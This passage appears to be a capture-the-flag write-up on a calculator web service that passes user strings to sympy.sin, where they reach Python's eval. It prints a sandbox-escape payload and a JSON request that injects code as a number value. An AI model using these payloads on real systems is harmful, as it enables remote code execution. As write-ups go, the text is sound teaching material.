 ## Find the bug
Firstly notice the `literal_eval` in the `postfix_calculator` function, but cleary it is secure because the python version is the latest version

After some testing on my local machine, notice something interesting when testing on the `sympy.sin` function

When pass in string as parameter, it thrown the following error:
```py
>>> sympy.sin("'a'")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/cache.py", line 93, in wrapper
    retval = cfunc(*args, **kwargs)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/function.py", line 442, in __new__
    result = super(Function, cls).__new__(cls, *args, **options)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/cache.py", line 93, in wrapper
    retval = cfunc(*args, **kwargs)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/function.py", line 251, in __new__
    evaluated = cls.eval(*args)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/functions/elementary/trigonometric.py", line 260, in eval
    if arg.is_Number:
AttributeError: 'str' object has no attribute 'is_Number'
```
Notice it pass the parameter into `eval`? Means we can evaluate any python code as we want!

Then I try use the python sandbox payload from [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), and found that it is evaluating our parameter!
```py
>>> sympy.sin("().__class__.__bases__[0].__subclasses__()[40]")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/cache.py", line 93, in wrapper
    retval = cfunc(*args, **kwargs)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/function.py", line 442, in __new__
    result = super(Function, cls).__new__(cls, *args, **options)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/cache.py", line 93, in wrapper
    retval = cfunc(*args, **kwargs)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/core/function.py", line 251, in __new__
    evaluated = cls.eval(*args)
  File "/home/hong/.local/lib/python3.8/site-packages/sympy/functions/elementary/trigonometric.py", line 260, in eval
    if arg.is_Number:
AttributeError: type object 'mappingproxy' has no attribute 'is_Number'
```
We can request something like this:
```json
[["num","'code'"],["op","sin"]]
```
Then it will run `sympy.sin('code')`, because the parameter is evaluate as a string and pass into the `sin` function
